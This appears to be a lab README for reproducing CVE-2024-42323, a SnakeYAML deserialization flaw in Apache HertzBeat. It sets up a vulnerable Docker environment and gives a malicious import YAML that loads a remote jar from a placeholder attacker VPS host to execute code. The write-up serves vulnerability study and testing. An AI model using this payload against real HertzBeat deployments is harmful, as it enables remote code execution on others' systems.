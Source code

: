 # Apache-HertzBeat SnakeYaml Deserialization Vulnerability (CVE-2024-42323)

[中文版本(Chinese version)](README.zh-cn.md)

Apache HertzBeat is an open-source real-time monitoring tool. In affected versions, due to the use of a vulnerable version of SnakeYAML for parsing user-controlled YAML files, authenticated attackers can configure malicious YAML scripts when importing new monitoring types via the /api/monitors/import and /api/alert/defines/import APIs, potentially leading to remote code execution.

Affected Versions:

* Apache HertzBeat < 1.6.0

References:

* https://forum.butian.net/article/612
* https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx
* https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md

## Vulnerable environment

To run the vulnerable environment:

```
docker-compose up -d
```

This will start a `HertzBeat 1.4.4 service`.

Once the service is up and running, access the login page at  `http://your-ip:1157/dashboard`.

The default credentials are `admin/hertzbeat`.

## Vulnerability reproduce

Select any monitor and click to import the monitor.

![image-20250225144319776](1.png)

Then, Modify the value field in the uploaded YAML file:

```yaml
- !!org.dromara.hertzbeat.manager.service.impl.AbstractImExportServiceImpl$ExportMonitorDTO
  detected: false
  metrics:
  - basic
  - cache
  - performance
  - innodb
  - status
  - handler
  - connection
  - thread
  - tmp
  - select_type
  - sort
  - table_lock
  - process_state
  - slow_sql
  monitor:
    app: mysql
    collector: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://your-vps-ip:4444/yaml-payload.jar"]]]]
    description: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://your-vps-ip:4444/yaml-payload.jar"]]]]
    host: 127.0.0.1
    intervals: 60
    name: MYSQL_127.0.0.1
    status: 1
    tags:
    - 3
    - 4
  params:
  - field: host
    type: 1
    value: 127.0.0.1
  - field: port
    type: 0
    value: '3306'
  - field: database
    type: 1
    value: null
  - field: username
    type: 1
    value: root
  - field: password
    type: 2
    value: 9XNUiI+whoJ4Wih7yOiVwg==
  - field: timeout
    type: 0
    value: '6000'
  - field: url
    type: 1
    value: null
```

The `/api/monitors/import` endpoint triggers the SnakeYaml deserialization vulnerability.

* Compile the project from `https://github.com/fei9747/yaml-payload/` under jdk11 to generate the payload.
* Example: The generated payload executes the local command `touch /tmp/success`.

Successfully executing the code:

![image-20250225145141924](2.png)

![image-20250225145052690](3.png) 
